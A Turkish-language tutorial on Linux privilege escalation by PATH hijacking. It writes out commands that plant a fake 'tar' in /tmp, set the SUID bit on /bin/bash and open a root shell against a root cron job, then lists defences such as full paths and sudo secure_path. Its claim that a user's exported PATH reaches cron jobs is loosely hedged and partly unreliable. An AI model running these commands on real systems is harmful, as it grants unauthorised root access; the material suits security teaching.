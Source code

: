 PATH değişkenini kullanarak **privilege escalation (privesc)** gerçekleştirmek, özellikle yanlış yapılandırılmış veya güvensiz PATH kullanımları durumunda mümkündür. Bu teknik genellikle kullanıcı tarafından kontrol edilebilir bir dizinin PATH değişkenine eklenmiş olması veya komutların tam yollarının belirtilmemesi durumlarında işe yarar.

### **PATH Değişkeni Nedir?**
`PATH`, Linux veya Windows gibi işletim sistemlerinde komut satırında çalıştırılan komutların aranacağı dizinlerin bir listesidir. Örneğin, `ls` komutunu çalıştırdığınızda, işletim sistemi bu komutun nerede olduğunu öğrenmek için `PATH` değişkenine bakar.

---

### **Privesc Yöntemi**
#### **Adım 1: PATH Değişkenini Kontrol Etme**
Öncelikle, mevcut PATH değişkenini kontrol etmelisiniz:
```bash
echo $PATH
```

**Dikkat Edilecekler:**
- Kullanıcının yazma iznine sahip olduğu dizinler var mı? Örneğin `/tmp`, `/home/user/bin`.
- Boş PATH veya nokta (`.`) gibi bir giriş var mı? Bu, mevcut dizini arama sırasına dahil eder ve tehlikeli olabilir.

#### **Adım 2: Hedef Komutları Belirleme**
Yetkili bir kullanıcı veya root tarafından çağrılan bir komut hedef alınır. Örneğin:
- `sudo` komutları
- Cron görevleri
- Setuid bit ayarları olan uygulamalar

Bir script içinde çağrılan komutlar PATH'e bağlıysa ve tam yol belirtilmemişse, bu komutlar potansiyel hedeflerdir.

Örnek bir cron job:
```bash
* * * * * root backup.sh
```

Ve bu script içinde şunlar olabilir:
```bash
#!/bin/bash
tar -czf /root/backup.tar.gz /important/data
```

#### **Adım 3: Kendi Zararlı İkili Dosyanızı Oluşturma**
Hedeflenen komutun adında bir dosya oluşturun. Örneğin, yukarıdaki `tar` komutunu ele alalım. Zararlı bir `tar` scripti şöyle yazılabilir:
```bash
#!/bin/bash
chmod +s /bin/bash
```

Bu scriptin adı `tar` olarak kaydedilir:
```bash
echo -e '#!/bin/bash\nchmod +s /bin/bash' > /tmp/tar
chmod +x /tmp/tar
```

#### **Adım 4: PATH Değişkenini Manipüle Etme**
Eğer `PATH` kontrolünüz altındaysa veya bir cron job ile değiştiriliyorsa, kendi zararlı dosyanızın bulunduğu dizini PATH'e ekleyin:
```bash
export PATH=/tmp:$PATH
```

Bu işlem, sistemin `/usr/bin/tar` yerine `/tmp/tar` komutunu çalıştırmasına neden olur.

#### **Adım 5: Zararlı Kodun Çalıştırılması**
Eğer bir cron job tarafından veya sudo komutuyla PATH'e bağımlı bir komut çalıştırılırsa, bu zararlı script/ikili dosya yürütülür. Örneğin, `chmod +s /bin/bash` ile bash'e SUID yetkisi eklenir.

Artık şu komutla root shell elde edebilirsiniz:
```bash
/bin/bash -p
```

---

### **Örnek Senaryo**
#### **1. Zayıf Cron Job**
Bir cron job şu şekilde çalışıyor:
```bash
* * * * * root /usr/bin/backup.sh
```

Ve `backup.sh` içeriği:
```bash
#!/bin/bash
tar -czf /root/backup.tar.gz /important/data
```

#### **2. Zararlı Script Hazırlığı**
`/tmp` dizinine bir `tar` scripti koyun:
```bash
echo -e '#!/bin/bash\nchmod +s /bin/bash' > /tmp/tar
chmod +x /tmp/tar
```

#### **3. PATH'i Manipüle Etme**
Cron job, `/tmp` dizininin PATH değişkeninde öne alınmasını sağlıyorsa veya sizin kontrolünüzdeyse:
```bash
export PATH=/tmp:$PATH
```

#### **4. Root Yetkisi Kazanma**
Cron job çalıştığında `/tmp/tar` yürütülür ve `/bin/bash` SUID olarak ayarlanır. Daha sonra:
```bash
/bin/bash -p
```

---

### **Savunma Yöntemleri**
1. **Tam Yol Belirtin:** Scriptler ve cron job'larda komutların tam yolunu kullanın (örn: `/usr/bin/tar`).
2. **Güvenli PATH Ayarlayın:** `PATH` değişkenini sadece güvenilir dizinlerle sınırlandırın:
   ```bash
   export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
   ```
3. **Yetkili Komutlarda PATH'i Kilitleyin:** Sudoers dosyasını düzenleyerek PATH değişkenini kilitleyin:
   ```bash
   Defaults secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
   ```
4. **Dosya İzinlerini Doğru Ayarlayın:** Kullanıcının yazma yetkisi olmayan dizinlerde PATH kullanın.
5. **Script Denetimleri Yapın:** Shell scriptlerini ve cron job'larını düzenli olarak gözden geçirin.

---

Bu yöntemle privesc gerçekleştirirken dikkatli olunmalı ve yalnızca eğitim veya yetkilendirilmiş test ortamlarında uygulanmalıdır.
